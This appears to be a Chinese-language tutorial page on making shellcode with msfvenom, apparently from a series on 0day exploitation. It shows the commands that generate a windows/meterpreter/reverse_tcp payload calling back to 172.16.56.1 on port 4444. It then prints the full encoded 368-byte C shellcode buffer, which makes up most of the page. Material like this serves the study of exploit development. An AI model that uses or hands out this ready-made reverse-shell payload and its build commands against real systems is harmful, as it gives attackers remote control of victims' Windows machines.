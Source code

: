 ![Screen Shot 2018-06-24 at 1.15.53 PM.png]({{ site.url }}/images/0day/6A5C771002ECF876894FD0F2C2330AC9.png)

## 使用msfvenom制作Shellcode

新的MSF中`msfvenom`取代了`msfpayload`和`msfencode`。

目前来说，它的用法是这样的：

![Screen Shot 2018-06-24 at 3.29.29 PM.png]({{ site.url }}/images/0day/DD80356AB734DA9D304E154C75D58D6D.png)

我们以`windows/meterpreter/reverse_tcp`为例：

用法：

```bash
msfvenom --payload windows/shell/bind_tcp --list-options
```

![Screen Shot 2018-06-24 at 3.51.42 PM.png]({{ site.url }}/images/0day/CBDCF6E62112EAFC81F26DC37EBB0288.png)

生成：

```bash
 msfvenom --payload windows/meterpreter/reverse_tcp LHOST="172.16.56.1" LPORT="4444" --format c --arch x86 --platform windows --bad "\x00"
```

得到：

```c
Found 10 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 368 (iteration=0)
x86/shikata_ga_nai chosen with final size 368
Payload size: 368 bytes
Final size of c file: 1571 bytes
unsigned char buf[] =
"\xbf\xd2\xee\x0c\x84\xdb\xcc\xd9\x74\x24\xf4\x5d\x33\xc9\xb1"
"\x56\x31\x7d\x13\x83\xc5\x04\x03\x7d\xdd\x0c\xf9\x78\x09\x52"
"\x02\x81\xc9\x33\x8a\x64\xf8\x73\xe8\xed\xaa\x43\x7a\xa3\x46"
"\x2f\x2e\x50\xdd\x5d\xe7\x57\x56\xeb\xd1\x56\x67\x40\x21\xf8"
"\xeb\x9b\x76\xda\xd2\x53\x8b\x1b\x13\x89\x66\x49\xcc\xc5\xd5"
"\x7e\x79\x93\xe5\xf5\x31\x35\x6e\xe9\x81\x34\x5f\xbc\x9a\x6e"
"\x7f\x3e\x4f\x1b\x36\x58\x8c\x26\x80\xd3\x66\xdc\x13\x32\xb7"
"\x1d\xbf\x7b\x78\xec\xc1\xbc\xbe\x0f\xb4\xb4\xbd\xb2\xcf\x02"
"\xbc\x68\x45\x91\x66\xfa\xfd\x7d\x97\x2f\x9b\xf6\x9b\x84\xef"
"\x51\xbf\x1b\x23\xea\xbb\x90\xc2\x3d\x4a\xe2\xe0\x99\x17\xb0"
"\x89\xb8\xfd\x17\xb5\xdb\x5e\xc7\x13\x97\x72\x1c\x2e\xfa\x1a"
"\xd1\x03\x05\xda\x7d\x13\x76\xe8\x22\x8f\x10\x40\xaa\x09\xe6"
"\xd1\xbc\xa9\x38\x59\xac\x57\xb9\x99\xe4\x93\xed\xc9\x9e\x32"
"\x8e\x82\x5e\xba\x5b\x3e\x55\x2c\xc8\xae\x51\xad\x78\xcc\xa1"
"\xbc\x24\x59\x47\xee\x84\x09\xd8\x4f\x75\xe9\x88\x27\x9f\xe6"
"\xf7\x58\xa0\x2d\x90\xf3\x4f\x9b\xc8\x6b\xe9\x86\x83\x0a\xf6"
"\x1d\xee\x0d\x7c\x97\x0e\xc3\x75\xd2\x1c\x34\xe2\x1c\xdd\xc5"
"\x87\x1c\xb7\xc1\x01\x4b\x2f\xc8\x74\xbb\xf0\x33\x53\xb8\xf7"
"\xcc\x22\x88\x8c\xfb\xb0\xb4\xfa\x03\x55\x34\xfb\x55\x3f\x34"
"\x93\x01\x1b\x67\x86\x4d\xb6\x14\x1b\xd8\x39\x4c\xcf\x4b\x52"
"\x72\x36\xbb\xfd\x8d\x1d\xbf\xfa\x71\xe3\xe8\xa2\x19\x1b\xa9"
"\x52\xd9\x71\x29\x03\xb1\x8e\x06\xac\x71\x6e\x8d\xe5\x19\xe5"
"\x40\x47\xb8\xfa\x48\x09\x64\xfa\x7f\x92\x97\x81\xf0\x25\x58"
"\x76\x19\x42\x59\x76\x25\x74\x66\xa0\x1c\x02\xa9\x70\x1b\x1d"
"\x9c\xd5\x0a\xb4\xde\x4a\x4c\x9d";
```
